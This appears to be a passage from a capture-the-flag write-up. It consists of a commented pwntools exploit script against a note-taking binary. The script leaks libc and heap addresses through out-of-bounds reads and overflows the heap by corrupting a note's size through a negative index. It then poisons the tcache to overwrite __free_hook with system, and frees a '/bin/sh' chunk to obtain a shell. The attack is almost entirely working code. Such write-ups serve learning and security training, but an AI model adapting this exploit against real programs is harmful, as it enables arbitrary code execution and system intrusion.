 ```python3=
    p = remote(host,port)
else:
    p = process([exe.path])
GDB()
# Libc leak using out of bound
rd(-1872)
ru(b'Data: ')
lib = u64(r(6)+b'\0\0')
libc.address = lib - 0x28070
info("Libc leak: "+hex(lib))
info("Libc base: "+hex(libc.address))
hook = libc.address + 0x1c8e40

# Using Hook Overwrite for shell
# This chunk for heap overflow
add(0, 0x50, b'a'*8)

# These chunk for poisoning
add(2, 0x50, b'b'*8)
add(3, 0x50, b'c'*8)

# Overite size note index 0
add(-4, 0x50, b'a'*8)
# Now, the size of note[0] is overwritten resulting in the heap overflow from chunk[0] to chunk[2] & [3]

# Remove chunk[3] first for the later allocation for /bin/sh
rm(3)
# Remove chunk[2] for the first allocation at hook
rm(2)

# Payload for heap leak
p0 = flat(b'a'*0x68)
# Heap overflow to reach the heap address
ed(0, p0)
# Read the chunk and the content will include the heap address
rd(0)
ru(b'a'*0x68)
pos = rl()[:-1]
pos = u32(pos.ljust(4,b'\0'))
info("Heap leak: "+hex(pos))
pos += 0x2f0

# Payload for heap overflow to overwrite hook
p1 = flat(b'a'*0x58, 0x51, gen(pos, hook))
# Heap overflow -> overwrite the forward pointer of chunk 2 (replace &chunk[3] by hook address)
ed(0, p1)

# GDB()
# Remember not to allocate at idx 0 and 1 because notesize is now bring the pointer of the chunk[-4]
# Allocate for address of /bin/sh (the later freed chunk)
add(2, 0x50, b'/bin/sh\0')
# Allocate chunk 2 for hook overwrite to system (the first freed chunk now is replaced by free hook)
add(3, 0x50, p64(libc.sym.system))

# Free now will call free_hook(now is system) and the first arg is address of /bin/sh
rm(2)
p.interactive()
```